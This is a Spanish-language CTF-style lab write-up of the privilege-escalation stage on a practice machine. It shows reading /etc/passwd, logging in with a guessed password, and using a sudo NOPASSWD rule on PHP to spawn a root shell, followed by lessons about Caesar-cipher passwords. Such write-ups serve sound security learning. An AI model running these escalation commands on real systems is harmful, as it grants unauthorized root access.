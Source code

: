 
## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
cat /etc/passwd
```

Listando los usuarios del sistema, vemos que si existe el usuario **mateo** pero la pasword que nos devolvio nuestra herramienta no es correcta: **( easycrxazy )** 
Pensando que es un error de ortografia ya que **crazy** es la palabra correcta quedando asi: **( easycrazy )**
```bash
su mateo # ( easycrazy )
```
### Explotacion de Privilegios

###### Usuario `[ Mateo ]`:
Una ves logueados como este usuaro veremos la forma de escalar a **root**
```bash
sudo -l

User mateo may run the following commands on 7d4ec0862d9d:
    (ALL) NOPASSWD: /usr/bin/php # Tenemos una via potencial de migrar a root
```

**Hallazgos Clave:**
- Binario con privilegios: `[ /usr/bin/php ]`
- Credenciales de usuario: `[ mateo ]:[ easycrazy ]`

```bash
# Comando para escalar al usuario: ( root )
sudo -u root /usr/bin/php -r "system('/bin/bash');"
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@7d4ec0862d9d:~# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos que es el **cifrado cesar**
2. Aprendimos a crear un script para desencriptar **cifrado cesar** 

## Recomendaciones de Seguridad
- No usar **cifrado cesar** para contrasenas es muy facil de romper
- Controlar el tipo de archivos que se pueden subir al servidor